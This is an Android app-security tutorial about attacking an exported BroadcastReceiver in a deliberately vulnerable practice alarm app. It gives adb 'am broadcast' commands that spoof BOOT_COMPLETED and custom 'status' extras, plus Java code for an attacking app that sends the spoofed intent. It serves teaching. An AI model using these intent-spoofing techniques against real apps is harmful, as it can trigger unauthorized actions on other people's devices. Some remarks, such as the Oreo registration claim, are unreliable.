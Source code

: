 # BroadcastReceiver Hacking

#### How to Send a Broadcast Using Activity Manager (am) in Android

In Android, you can send broadcasts to receivers defined in the `AndroidManifest.xml`. Here’s a detailed guide on how to do this effectively.

**Defining Intent Filters in `AndroidManifest.xml`**

First, define your receiver and its intent filters in the `AndroidManifest.xml`. For example:

```xml
<receiver android:name=".MyReceiver">
    <intent-filter>
        <action android:name="com.example.MY_ACTION" />
    </intent-filter>
</receiver>
```

In our example application, the receiver is configured to listen for two actions: `BOOT_COMPLETED` and `LOCKED_BOOT_COMPLETED`.

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

**Sending a Broadcast Using `adb`**

To send a broadcast to this receiver using `adb shell`, you can utilize the `am` (Activity Manager) command. Here’s how to send a `BOOT_COMPLETED` broadcast:

```sh
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED
```

After executing this command, you should observe in logcat that the application is handling the broadcast, possibly performing a system reset.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Compatibility with Newer Android Versions**

The above method works for older versions of Android. For Android 8.0 (Oreo) and higher, broadcast receivers need to be registered in the Java code, not just in the manifest.

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Checking the `onReceive` Method**

Let’s examine the `onReceive` method in your BroadcastReceiver. Typically, it might process extras included in the broadcast intent. For example, it could be looking for an extra with the key `status`:

```java
@Override
public void onReceive(Context context, Intent intent) {
    String status = intent.getStringExtra("status");
    if ("hacked".equals(status)) {
        // Handle the "hacked" status
    } else if ("arm".equals(status)) {
        // Handle the "arm" status
    }
}
```

**Here is what we got in our vuln-app**

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

**Sending a Custom Broadcast**

To test your receiver by sending a custom broadcast with an extra value, use the `am` command. For instance, to send a status of "hacked", execute:

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "hacked"
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

You should see logcat messages indicating that the application has processed the "hacked" status.

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

**Arming the Alarm System**

Similarly, to arm the alarm system, you can send a broadcast with the status set to "arm":

```sh
adb shell am broadcast -a com.apphacking.broadcastreceiver.alarmState -es "status" "arm"
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

By following these steps, you can effectively send broadcasts using the Activity Manager in Android, whether you are working with older versions or the latest ones.

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

### SO our Hacking App's **`MainActivity.java`** code&#x20;

```java
package com.apphacking.broadcasthacking;

import androidx.appcompat.app.AppCompatActivity;

import android.content.Intent;
import android.os.Bundle;
import android.view.View;


public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
    }


    public void disarmAlarmSystem(View view) {

        Intent intent = new Intent();
        intent.setAction("com.apphacking.broadcastreceiver.alarmState");
        intent.putExtra("status","arm");
        sendBroadcast(intent);
    }


}
```
